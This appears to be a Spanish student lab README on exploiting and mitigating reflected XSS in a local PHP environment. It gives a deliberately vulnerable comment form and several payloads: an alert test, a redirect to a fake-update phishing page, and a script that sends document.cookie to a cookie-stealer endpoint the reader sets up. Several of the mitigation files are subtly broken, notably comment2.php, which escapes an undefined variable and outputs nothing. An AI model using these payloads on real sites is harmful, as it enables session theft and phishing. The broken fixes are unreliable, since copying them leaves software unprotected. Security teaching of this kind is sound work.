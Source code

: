 # PPS-Unidad3Actividad5-Angel
Explotación y Mitigación de Cross-Site Scripting (XSS)


Objetivos:

* Investigr cómo se pueden realizar ataques de Cross-Site Scripting (XSS)
* Conocer las diversas formas de ataque XSS
* Analizar el código de la aplicación que permite ataques de Cross-Site Scripting (XSS)
* Implementar diferentes modificaciones del código para aplicar mitigaciones o soluciones.

---

## ¿Qué es XSS?
Cross-Site Scripting (XSS) es una vulnerabilidad de seguridad en aplicaciones web que ocurre cuando un atacante inyecta código malicioso en una página web que no valida ni sanitiza scripts maliciosos y que se ejecutarán en el navegador de otros usuarios.

Tipos de XSS: 

* Reflejado: Se ejecuta al hacer la solicitud con un payload (desde la URL)
* Almacenado: El script se guarda en la base de datos y afecta a otros usuarios al acceder a la página.
* DOM-Based: El código malicioso se inyecta directamente en la estructura DOM del navegador sin que pase por el servidor.


---
## Actividades

* Lee detenidamente la sección de Cross-Site Scripting de la página de PortWigger <https://portswigger.net/web-security/cross-site-scripting>

* Lee el siguiente [documento sobre Explotación y Mitigación de ataques de Inyección SQL](./files/ExplotacionYMitigacionXSS.pdf) de Raúl Fuentes. Nos va a seguir de guía para aprender a explotar y mitigar ataques de inyección XSS Reflejado en nuestro entorno de pruebas.
 
* También y como marco de referencia, tienes [ la sección de correspondiente de ataque XSS reglejado de la **Proyecto Web Security Testing Guide** (WSTG) del proyecto **OWASP**.](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting).

--- 
### Levantamos la máquina

![](Images/img1.png)


### Código vulnerable

Creamos un archivo llamado comment.php en /www/

~~~
<?php
if (isset($_POST['comment'])) {
	echo "Comentario publicado: " . $_POST['comment'];
}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
~~~

El código malicioso anterior muestra un formuladio donde el usuario puede introducir comentarios en un campo de texto.
En el momento en que el usuario envía el formulario, el comentario introducido se muestra por pantalla con el siguiente mensaje: "Comentario publicado: \[comentario\]". 


El Código no sanitiza la entrada del usuario, lo que permite inyectar scripts maliciosos.

![](Images/img10.png)

### **Explotación de XSS**
---

Abrir el navegador y acceder a la aplicación: <http://localhost/comment.php>

** Explotación 1**
Ingresar el siguiente código en el formulario:

~~~
<script>alert('XSS ejecutado!')</script>
~~~

Si aparece un mensaje de alerta (alert()) en el navegador, significa que la aplicación es vulnerable.

![](Images/img11.png)

**Explotación 2**

Podríamos redirigir a una página de phishing:

`<script>window.location='https://fakeupdate.net/win11/'</script>`

![](Images/img12.png)

**Capturar cookies del usuario (en ataques reales):**
---
Con este ataque, un atacante podría robar sesiones de usuarios.

- Primero preparamos el **servidor atacante**:

En el caso de que estés utilizando la máquina docker de la pila LAMP, recuerda que tienes que conectarte al servicio docker  php83 primero:
~~~
docker exec -it lamp-php83 /bin/bash
~~~

Crea en tu servidor web una carpeta con nombre cookieStealer y carpetas asociadas:
~~~
mkdir /var/www/html/cookieStealer/
touch /var/www/html/cookieStealer/index.php
touch /var/www/html/cookieStealer/cookies.txt
chmod 777 /var/www/html/cookieStealer/cookies.txt
~~~
 
> Si estamos con la Pila LAMP también lo podemos hacer directamente en la ruta _./www/cookieStealer_

Copia en el archivo coockieStealer/index.php [este archivo php](files/steal.php)
 - Ataque: Si insertamos en el comentario el siguiente script
~~~
<script>document.write('<img src="http://localhost/cookieStealer/index.php?cookie='+document.cookie+'">')</script>`
~~~

En el archivo **cookie.txt** del servidor del atacante se habrán guardado los datos de nuestra cookie:

![](Images/img2.png)

Puedes investigar más en <https://github.com/TheWation/PhpCookieStealer/tree/master>

## **Mitigación**
---
**Uso de filter_input() para filtrar caracteres.**
---
Filtra caracteres problemáticos.

Crea el documento comment1.php con el siguiente contenido:

~~~
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}

// Verificar si el comentario ha sido enviado
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Obtener y sanitizar el comentario
    $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
}
?>

<form method="post">
    <label for="comment">Comentario:</label>
    <input type="text" name="comment" id="comment">
    <button type="submit">Enviar</button>
</form>
~~~

![](Images/img3.png)

La función que hemos creado al principio del documento: filter_string_polyfill nos va a eliminar todos los caracteres peligrosos y nos cambia caracteres conflictivos.

**Sanitizar la entrada con htmlspecialchars()**
---
htmlspecialchars() convierte caracteres especiales en sus equivalentes entidades HTML. Esto garantiza que incluso si el usuario ingresa una cadena que contiene etiquetas o código HTML, se mostrará como texto sin formato en lugar de que el navegador lo ejecute.
- <script> → &lt;script&gt;
- " → &quot;
- ' → &#39;

Con esta corrección, el intento de inyección de JavaScript se mostrará como texto en lugar de ejecutarse.

Crea un archivo comment2.php con el siguiente contenido 

~~~
<?php
if (isset($_POST['comment'])) {
        // para manejar el caso de que no se haya enviado ningún comentario
    // htmlspecialchars convierte caracteres especiales en equivalentes html
    $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');

}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
~~~

![](Images/img4.png)

Aunque usar htmlspecialchars() es una buena medida para prevenir ataques XSS, todavía se puede mejorar la
seguridad y funcionalidad del código con los siguientes puntos:

**Validación de entrada**
---

Actualmente, el código permite que el usuario envíe cualquier contenido, incluyendo texto vacío o datos
demasiado largos. Puedes agregar validaciones para asegurarte de que el comentario sea adecuado:

Crea un archivo comment3.php con el siguiente contenido:
~~~
<?php
//sanitizar comentario
$comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');
if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
} else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500caracteres.";
}
?>

<form method="post">
        <input type="text" name="comment">
        <button type="submit">Enviar</button>
</form>
~~~

Evita comentarios vacíos o excesivamente largos (500 caracteres).

![](Images/img4.png)


**Protección contra inyecciones HTML y JS (XSS)**
---
Si bien htmlspecialchars() mitiga la ejecución de scripts en el navegador, se puede reforzar con strip_tags() si
solo se quiere texto sin etiquetas HTML:

`$comment = strip_tags($_POST['comment']);`

Elimina etiquetas HTML completamente. Útil si no quieres permitir texto enriquecido (bold, italic, etc.).

Si en cambio si se quiere permitir algunas etiquetas (por ejemplo, \<b\> y \<i\>), se puede hacer:

`$comment = strip_tags($_POST['comment'], '<b><i>');`

**Protección contra ataques CSRF**
---
Actualmente, cualquiera podría enviar comentarios en el formulario con una solicitud falsa desde otro sitio web.

Para prevenir esto, se puede generar un token CSRF y verificarlo antes de procesar el comentario.

En la [proxima actividad sobre ataques CSRF](https://github.com/jmmedinac03vjp/PPS-Unidad3Actividad6-CSRF) lo veremos más detenidamente.

_Generar y almacenar el token en la sesión_
~~~
session_start();
if (!isset($_SESSION['csrf_token'])) {
$_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
~~~

_Agregar el token al formulario_
`<input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">`

_Verificar el token antes de procesar el comentario_
~~~
if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token'])
{
die("Error: Token CSRF inválido.");
}
~~~
Estas modificaciones previenen ataques de falsificación de solicitudes (CSRF).

## Código Seguro


Crea el archivo comment4.php con todas las mitigaciones. La mitigaciones con mejoras para evitar CSRF las veremos en la siguiente actividad.

~~~
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}
session_start();
// Generar token CSRF si no existe
if (!isset($_SESSION['csrf_token'])) {
        $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
if ($_SERVER["REQUEST_METHOD"] == "POST") {
        // Verificar el token CSRF
        if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !==$_SESSION['csrf_token']) {
                die("Error: Token CSRF inválido.");
        }// Verificar si el comentario ha sido enviado
        // Obtener y sanitizar el comentario
        $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
        $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');
    // Validación de longitud y evitar comentarios vacíos.
    if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
    } else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500 caracteres.";
    }
}
?>

<!DOCTYPE html>
<html lang="es">
<head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Comentarios Seguros</title>
</head>
<body>
        <form method="post">
                <label for="comment">Escribe tu comentario:</label>
                <input type="text" name="comment" id="comment" required maxlength="500">
                <input type="hidden" name="csrf_token" value="<?php echo
$_SESSION['csrf_token']; ?>">
                <button type="submit">Enviar</button>
        </form>
</body>
</html>
~~~


![](Images/img5.png)

Aquí está el código securizado:

Medidas de seguridad implementadas

1. Eliminación de etiquetas HTML y caracteres nulos:

La función filter_string_polyfill() usa preg_replace('/\x00|<[^>]*>?/', '', $string); para eliminar caracteres nulos (\x00) y cualquier etiqueta HTML (<[^>]*>?). Esto reduce la posibilidad de inyección de scripts.

2. Escapado de comillas:

En filter_string_polyfill(), las comillas simples (') y dobles (") se reemplazan por sus equivalentes en entidades HTML (&#39; y &#34;). Esto evita el cierre prematuro de atributos en HTML.

3. Uso de htmlspecialchars:

Después de aplicar filter_string_polyfill(), se vuelve a ejecutar htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');, lo que convierte caracteres especiales en entidades HTML.

	- ENT_QUOTES protege contra XSS al convertir tanto comillas simples como dobles en sus versiones seguras (&#39; y &#34;).

	- UTF-8 previene ataques basados en codificaciones incorrectas.  

4. Validación de longitud y contenido:

Se valida que el comentario no esté vacío y que no supere los 500 caracteres. Aunque esto no previene directamente XSS, ayuda a limitar intentos de ataques masivos.





